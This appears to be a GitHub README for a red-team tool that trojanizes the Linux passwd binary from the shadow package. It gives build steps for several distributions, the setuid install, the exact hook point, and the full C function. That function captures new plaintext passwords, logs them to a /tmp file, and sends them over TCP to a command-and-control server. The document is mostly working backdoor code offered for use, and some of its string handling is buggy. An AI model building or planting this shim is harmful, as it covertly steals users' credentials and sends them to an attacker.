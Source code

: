 # Retreiver Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a C2. It will also write to a file in the /tmp directory as a failover method. 

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04
Centos - 8
Debian - 11

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.
$~~~~~~~~~~~$

## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### Debian - 11
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### CentOS - 8
1. clone shadow git
2. yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install
3. yum install -y autoconf gettext-devel automake 
4. dnf group install "Development Tools"
5. run ./autogen.sh --without-selinux
6. Add Hook (See Hooking passwd.c)
7. sudo make all
6. sudo chmod 4755 passwd

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to

$~~~~~~~~~~~$
## Hooking the passwd.c file

#### At the Top
Imports needed 

    #include <sys/socket.h> 
    #include <arpa/inet.h> 
    #include <unistd.h> 
    #include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. 

    int writetofile (char *password){

        // Get UID
        uid_t uid = geteuid();
        struct passwd * pw = getpwuid(uid);
        
        // Create File + Variables
        FILE * fptr;
        fptr = fopen("/tmp/18432443.tmp", "a"); // Remove for ultra sneak
        char * user;
        char * msg;
        char * msg2;
        char * colon;

        // Write Shit
        if (pw) {
            user = pw->pw_name;
        }
        else {
            user = "unknown";
        }

        if (fptr != NULL) {

            fprintf(fptr, "%s:%s\n", name, password);
            
            // Send Shit //
            // Make Socket
            int sock = 0, valread;
            struct sockaddr_in serv_addr;
            
            // Build String
            strcpy(user, name);
            msg = ("%s", password);
            msg2 = ("%s:", user);
            colon = ':';
            strncat(msg2, &colon, 1);
            strcat(msg2, msg);

            char buffer[1024] = {0};
            fclose(fptr);

            // Error Handling
            if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
                // printf("\n Socket creation error \n");
                return -1;
            }

            serv_addr.sin_family = AF_INET;
            serv_addr.sin_port = htons(PORT);
            
            struct timeval timeout;
            timeout.tv_sec = 3;
            timeout.tv_usec = 0;

            if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
                // puts("Setsockopt failed\n");
                return -1;
            }
            
            if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
                // puts("setsockopt failed\n");
            }


            // Error Handling
            if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
                // puts("\nInvalid address/ Address not supported \n");
                return -1;
            }
            if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
                return -1;
            }

            // Send Message
            send(sock , msg2 , strlen(msg2) , 0 );
            return 0;
        }

        return 0;
    }